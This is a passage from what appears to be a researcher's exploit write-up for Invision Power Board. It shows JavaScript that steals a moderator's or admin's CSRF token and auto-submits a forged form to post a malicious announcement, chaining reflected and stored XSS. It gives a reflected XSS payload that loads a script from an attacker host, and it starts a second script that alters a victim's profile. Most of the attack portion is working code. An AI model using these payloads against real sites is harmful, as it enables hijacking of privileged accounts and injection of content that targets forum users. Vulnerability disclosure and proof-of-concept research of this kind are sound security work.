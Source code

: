 ```javascript
    mm='0'+mm;
}
var today = mm+'/'+dd+'/'+yyyy;

// build form with valid token and evil credentials
document.body.innerHTML
  += '<form id="sxcurity" action="' + target + '" method="POST">'
	+ '<input type="hidden" name="_submitted" value="1">'
  + '<input type="hidden" name="csrfKey" value="' + token + '">'
	+ '<input type="hidden" name="MAX_FILE_SIZE" value="2097152">'
	+ '<input type="hidden" name="plupload" value="sxcurity">'
	+ '<input type="hidden" name="announce_title" value="' + title + '">'
	+ '<input type="hidden" name="announce_start" value="' + today +'">'
	+ '<input type="hidden" name="announce_end_unlimited" value="0">'
	+ '<input type="hidden" name="announce_content" value="'+ payload +'">'
	+ '<input type="hidden" name="announce_content_upload" value="sxcurity">'
	+ '<input type="hidden" name="announce_app_unlimited" value="*">'
	+ '<input type="hidden" name="announce_calendars">'
	+ '<input type="hidden" name="announce_calendars-zeroVal" value="on">'
	+ '<input type="hidden" name="announce_download_categories">'
	+ '<input type="hidden" name="announce_download_categories-zeroVal" value="on">'
	+ '<input type="hidden" name="announce_forums">'
	+ '<input type="hidden" name="announce_forums-zeroVal" value="on">'
  + '</form>';

// submits our csrf form!
document.forms["sxcurity"].submit();

function get(url) {
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open("GET", url, false);
    xmlHttp.send(null);
    return xmlHttp.responseText;
}

```

It requires a moderator or admin to visit (not too hard to do). Once they visit it, it creates an announcement abusing the first bug I found, thus chaining this reflected XSS with the stored one. It does this by stealing the moderator's / admin's CSRF token, builds a CSRF form with that token & with the HTML we want to be in the announcement, and then submits the form, creating our malicious announcement :) <br><br>
Payload: `controller='};</script><script src=//<attacker>/xss.js></script>;{' `

The second script I coded was: http://www.sxcurity.pro/pocs/lol.js
```javascript
/*
www.sxcurity.pro/pocs/lol.js
 _
(_)_ ____      ___ __
| | '_ \ \ /\ / / '_ \
| | |_) \ V  V /| | | |
|_| .__/ \_/\_/ |_| |_|
 |_|  IPB Exploit
      by @sxcurity

index.php?/profile/<user>/&tab=field_core_pfield_1
This will add "sxcurity is my hero" to the user's about me.
*/
var target = 'http://localhost/ips_4141/index.php';
var payload = 'sxcurity is my hero';

// Gets the Profile URL of the victim.
var cdl = get(target);
```